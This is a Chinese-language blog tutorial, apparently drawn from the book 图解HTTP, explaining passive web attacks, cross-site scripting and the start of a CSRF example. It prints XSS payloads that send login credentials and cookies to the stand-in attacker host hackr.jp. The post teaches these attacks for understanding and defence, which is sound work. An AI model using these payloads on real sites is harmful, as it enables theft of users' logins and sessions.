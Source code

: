 ```yaml
---
title: '认识HTTP----Web安全与攻击手段'
date: 2017-09-09 11:38:05
tags: [HTTP]
published: true
hideInList: false
feature: /post-images/securi.jpeg
---
```

**本文内容大多参考[《图解HTTP》一书](https://book.douban.com/subject/25863515/)**

## 关于Web的攻击手段
目前，互联网攻击大多是针对应用HTTP协议的服务器和客户端，以及运行在服务器上的Web应用等资源，本文主要针对Web应用的攻击技术进行简单分析。

### 针对Web应用的攻击模式

对Web应用的攻击模式有以下两种。

- 主动攻击
主动攻击（active attack）是指攻击者通过直接访问Web 应用，把攻击代码传入的攻击模式。由于该模式是直接针对服务器上的资源进行攻击，因此攻击者需要能够访问到那些资源。

![这个攻击者没法吐槽](http://upload-images.jianshu.io/upload_images/4337988-3b2645de43c3de0c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 被动攻击
被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻击模式。在被动攻击过程中，攻击者不直接对目标Web 应用访问发起攻击。
被动攻击通常的攻击模式如下所示。
1. 攻击者诱使用户触发已设置好的陷阱，而陷阱会启动发送已嵌入攻击代码的HTTP 请求。
2. 当用户不知不觉中招之后，用户的浏览器或邮件客户端就会触发这个陷阱。
3. 中招后的用户浏览器会把含有攻击代码的HTTP 请求发送给作为攻击目标的Web 应用，运行攻击代码。
4. 执行完攻击代码，存在安全漏洞的Web 应用会成为攻击者的跳板，可能导致用户所持的Cookie 等个人信息被窃取，登录状态中的用户权限遭恶意滥用等后果。被动攻击模式中具有代表性的攻击是跨站脚本攻击（xss）和跨站点请求伪造（CSRF/XSRF）。

![](http://upload-images.jianshu.io/upload_images/4337988-72423c77abb5909d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### 因输出值转义不完全引发的安全漏洞
实施Web 应用的安全对策可大致分为以下两部分。
- 客户端验证
- Web应用端（服务器）验证
    - 输入值验证
     - 输出值转义

![](http://upload-images.jianshu.io/upload_images/4337988-511ebfb85ffa5947.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

多数情况下采用JavaScript 在客户端验证数据。可是在客户端允许篡改数据或关闭JavaScript，不适合将JavaScript 验证作为安全的防范对策。保留客户端验证只是为了尽早地辨识输入错误，起到提高UI 体验的作用。
Web 应用端的输入值验证按Web 应用内的处理则有可能被误认为是具有攻击性意义的代码。输入值验证通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策。
从数据库或文件系统、HTML、邮件等输出Web 应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略。当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害。

## 跨站脚本攻击（XSS）
跨站脚本攻击（Cross-Site Scripting，XSS）是指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的HTML标签或者Javascript的一种攻击。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。
跨站脚本攻击有可能造成以下影响：
- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片（莫名其妙的广告）。
### 简单例子

**在动态生成HTML处发生：**

下面以编辑个人信息页面为例讲解跨站脚本攻击。下方界面显示了用户输入的个人信息内容。

![跨站脚本攻击案例](http://upload-images.jianshu.io/upload_images/4337988-f42a8f9323739e75.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

确认界面按原样显示在编辑界面输入的字符串。此处输入带有山口
一郎这样的HTML 标签的字符串。

![按照输入内容原样显示的机制](http://upload-images.jianshu.io/upload_images/4337988-ec25584204f71ee4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

此时的确认界面上，浏览器会把用户输入的`<s>` 解析成HTML 标签，然后显示删除线。
删除线显示出来并不会造成太大的不利后果，但如果换成使用script 标签将会如何呢。

## XSS 是攻击者利用预先设置的陷阱触发的被动攻击

跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱。
下图网站通过地址栏中URI 的查询字段指定ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞。

![](http://upload-images.jianshu.io/upload_images/4337988-23e6fa19d23f219e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的URL。并隐藏植入事先准备好的欺诈邮件中或Web 页面内，诱使用户去点击该URL。

```
http://example.jp/login?ID="><script>var+f=document⇒
.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method=⇒
"get";</script><span+s="
```

浏览器打开该URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入ID 和密码之后，就会直接发送到攻击者的网站（也就是hackr.jp），导致个人登录信息被窃取。

![](http://upload-images.jianshu.io/upload_images/4337988-d9c24bd7a2426f2b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

之后，ID 及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露。

**对 http://example.jp/login?ID=yama 请求时对应的HTML源代码（摘录）**

```html
<div class="logo">
![](/img/logo.gif)
</div>
<form action="http://example.jp/login" method="post" id="login">
<div class="input_id">
ID <input type="text" name="ID" value="yama" />
</div>
```
```html
**http://example.jp/login?ID="><script>var+f=document.getElementById
("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script>
<span+s="对请求时对应的HTML源代码（摘录）**
```
```html
<div class="logo">
![](/img/logo.gif)
</div>
<form action="http://example.jp/login" method="post" id="login">
<div class="input_id">
ID <input type="text" name="ID" value=""><script>var f=document⇒
.getElementById("login"); f.action="http://hackr.jp/pwget"; f.method=⇒
"get";</script><span s="" />
</div>
```
### 对用户Cookie的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的Cookie 信息。
`<script src=http://hackr.jp/xss.js></script>`
该脚本内指定的http://hackr.jp/xss.js 文件。即下面这段采用JavaScript 编写的代码。
```js
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```
在存在可跨站脚本攻击安全漏洞的Web 应用上执行上面这段JavaScript 程序，即可访问到该Web 应用所处域名下的Cookie 信息。然后这些信息会发送至攻击者的Web 网站（http://hackr.jp/），记录在他的登录日志中。结果，攻击者就这样窃取到用户的Cookie 信息了。

![使用XSS 攻击夺取Cookie 信息](http://upload-images.jianshu.io/upload_images/4337988-73e389217a5eca2a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 跨站点请求伪造(CSRF)
跨站点请求伪造（Cross-Site Request Forgeries，CSRF）攻击是指攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新，属于被动攻击。
跨站点请求伪造有可能会造成以下等影响。
- 利用已通过认证的用户权限更新设定信息等
- 利用已通过认证的用户权限购买商品
- 利用已通过认证的用户权限在留言板上发表言论
### 跨站点请求伪造的攻击案例
下面以留言板功能为例，讲解跨站点请求伪造。该功能只允许已认证并登录的用户在留言板上发表内容。

![跨站点请求伪造的攻击案例](http://upload-images.jianshu.io/upload_images/4337988-aa8130ff059c20c4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在该留言板系统上，受害者用户A 是已认证状态。它的浏览器中的Cookie 持有已认证的会话ID（步骤①）
攻击者设置好一旦用户访问，即会发送在留言板上发表非主观行为产生的评论的请求的陷阱。用户A 的浏览器执行完陷阱中的请求后，留言板上也就会留下那条评论（步骤②）。
触发陷阱之际，如果用户A 尚未通过认证，则无法利用用户A 的身份权限在留言板上发表内容。